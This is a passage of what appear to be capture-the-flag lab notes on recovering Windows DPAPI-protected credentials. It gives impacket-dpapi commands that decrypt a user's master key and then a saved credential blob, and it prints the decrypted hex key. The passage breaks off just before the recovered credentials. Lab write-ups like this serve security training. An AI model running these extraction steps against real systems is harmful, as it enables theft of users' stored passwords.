 Overall guide here:
https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets

there are 2 keys in the keys folder, the 'non preferred' looks most interesting....
<img src="Puppy-media/aa8d0944aee9835876b61ad21ce7de30727b5a64.png"
class="wikilink" alt="Pastedimage20250926214331.png" />

impacket has a tool

    impacket-dpapi masterkey -file keys/S-1-5-21-1487982659-1829050783-2281216199-1107\\556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107

<img src="Puppy-media/5113497331c7fc9aec380482db2be9c65e83e08c.png"
class="wikilink" alt="Pastedimage20250926214040.png" />
giving: De-crypted key:

    0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

Reverse the key to credentials - impacket again with the key from before and the dapi key:

    impacket-dpapi credential -file creds/C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

giving:
<img src="Puppy-media/581b6e7a4a63d83e2310295f6800b56cc9095a8e.png"
class="wikilink" alt="Pastedimage20250926215113.png" />Credentials for
